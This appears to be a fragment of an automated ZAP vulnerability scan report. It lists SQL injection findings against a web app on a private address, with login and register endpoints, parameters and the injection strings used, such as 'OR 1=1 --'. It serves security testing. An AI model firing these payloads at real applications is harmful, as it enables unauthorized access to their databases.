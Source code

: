   
  
  
* URL: [http://192.168.7.30:8080/register](http://192.168.7.30:8080/register)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: ` ZAP OR 1=1 -- ' AND '1'='1' -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `IjYxNGU2YWM5YzJlNzdiZTJiNTBjMzBlZmVmNTU0NmM3Yzk5MDhmZWYi.XbC8WQ.TM4FPbi_zW5-ggkjwVD0OtCebSU OR 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/register](http://192.168.7.30:8080/register)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbITjg.rwaIwtLSVpjjZ-Qi7Oc-3saOGJk" OR "1"="1" -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=%2Fspell_check](http://192.168.7.30:8080/login?next=%2Fspell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  
  * Attack: `Sign in%'  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=%2Fspell_check](http://192.168.7.30:8080/login?next=%2Fspell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989' AND '1'='1' -- `
  